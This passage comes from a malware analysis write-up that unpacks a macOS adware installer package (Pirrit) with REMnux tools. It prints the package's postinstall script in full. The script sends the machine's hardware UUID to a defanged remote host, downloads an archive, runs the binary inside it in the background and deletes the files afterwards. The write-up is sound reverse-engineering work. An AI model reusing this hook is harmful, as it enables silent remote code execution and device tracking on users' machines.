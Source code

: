 ```console
-rw-r--r-- 1 remnux remnux  394 Apr 29  2017 PackageInfo
-rw-r--r-- 1 remnux remnux  114 Apr 29  2017 Payload
-rw-r--r-- 1 remnux remnux  697 Apr 29  2017 Scripts

remnux@remnux:~/cases/pirrit/extracted/base.pkg$ tree -a Applications/
Applications/

0 directories, 0 files
```

The only thing within the package's Payloads archive was an `Applications` folder, and it didn't contain anything else. We can do something similar for the Scripts archive.

## Extracting and analyzing any scripts

Just like with Payloads, we can extract the contents of Scripts.

```console
remnux@remnux:~/cases/pirrit/extracted/base.pkg$ cat Scripts | gunzip | cpio -i
4 blocks

remnux@remnux:~/cases/pirrit/extracted/base.pkg$ ll
total 56
drwxr-xr-x 3 remnux remnux 4096 May 13 21:21 ./
drwxrwxr-x 4 remnux remnux 4096 May 13 20:30 ../
-rw-r--r-- 1 remnux remnux   36 May 13 21:21 66c1ffac-c020-4385-b6c8-a23192676f00
-rw-r--r-- 1 remnux remnux   36 May 13 21:21 7d13cfd4-0ea8-423c-aaca-d9724d1ae3f4
-rw-r--r-- 1 remnux remnux   36 May 13 21:21 8b84eaf8-a670-4cd9-b519-46725438c885
-rw-r--r-- 1 remnux remnux   36 May 13 21:21 8d6b1599-5bd7-4043-918c-b67863e24970
-rw-r--r-- 1 remnux remnux   36 May 13 21:21 a62f3b05-8125-4b5e-b035-e49985109b9a
drwxr-xr-x 2 remnux remnux 4096 May 13 21:17 Applications/
-rw-r--r-- 1 remnux remnux 1022 Apr 29  2017 Bom
-rw-r--r-- 1 remnux remnux   36 May 13 21:21 c45eb9d2-0c19-44b3-bdc1-7f936567f746
-rw-r--r-- 1 remnux remnux  394 Apr 29  2017 PackageInfo
-rw-r--r-- 1 remnux remnux  114 Apr 29  2017 Payload
-rwxr-xr-x 1 remnux remnux  756 May 13 21:21 postinstall*
-rw-r--r-- 1 remnux remnux  697 Apr 29  2017 Scripts
```

The Scripts archive contained multiple files that are named with GUIDs. Inside those files are GUID values that match the name of the file. They don't seem to add anything to the experience here, so we can focus on the `postinstall` script itself.

```shell
#!/bin/bash

func_act(){
    OS_Version=$(sw_vers -productVersion)
    mid=$(ioreg -rd1 -c IOPlatformExpertDevice | awk '/IOPlatformUUID/ { split($0, line, "\""); printf("%s\n", line[4]); }')
    if [[ ${OS_Version} == *"10.12"* ]]; then
      /usr/bin/curl -s -L -o /var/tmp/act.tgz "hxxp://c.firstinstallmac[.]club/is/cact?i="413cc336-95fb-4d47-aa10-d4f06f790e1c"&ve=10.12&id=$mid"
    else
      /usr/bin/curl -s -L -o /var/tmp/act.tgz "hxxp://c.firstinstallmac[.]club/is/cact?i="413cc336-95fb-4d47-aa10-d4f06f790e1c"&id=$mid"
    fi
    tar -xzf /var/tmp/act.tgz -C /var/tmp
    /var/tmp/act/act "2712c147-7e15-4366-80e0-4c7b98d780f0" "413cc336-95fb-4d47-aa10-d4f06f790e1c"
    sleep 120
    rm -rf /var/tmp/act/act
    rm -rf /var/tmp/act.tgz
}
func_act &
```